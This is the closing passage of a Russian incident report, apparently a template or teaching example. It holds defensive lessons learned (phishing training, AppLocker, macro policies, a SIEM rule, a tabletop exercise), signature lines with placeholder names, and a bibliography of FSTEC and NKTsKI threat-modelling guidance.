УРОКИ И УЛУЧШЕНИЯ
================================================================================
1. Обновить тренинг по фишингу для бухгалтерии
2. Внедрить Application Whitelisting (AppLocker)
3. Настроить более строгие политики макросов Office
4. Добавить правило SIEM для родительского процесса WINWORD
5. Провести tabletop exercise по данному сценарию

================================================================================
ПОДПИСИ
================================================================================
SOC Manager: _________________ / И.И. Иванов / 16.01.2024
CISO: _________________ / П.П. Петров / 16.01.2024
Ответственный за ФСТЭК: _________________ / С.С. Сидоров / 16.01.2024
================================================================================
```
## Список литературы 
1. Методический документ ФСТЭК России — _Методика определения актуальных угроз безопасности информации_.
2. Базовая модель угроз безопасности персональных данных (ФСТЭК России).
3. Базовая модель угроз безопасности КИИ РФ.
4. НКЦКИ — Методические рекомендации по обнаружению компьютерных атак.
5. Баранов А.В. — _Моделирование угроз информационной безопасности_. — М.: Юрайт.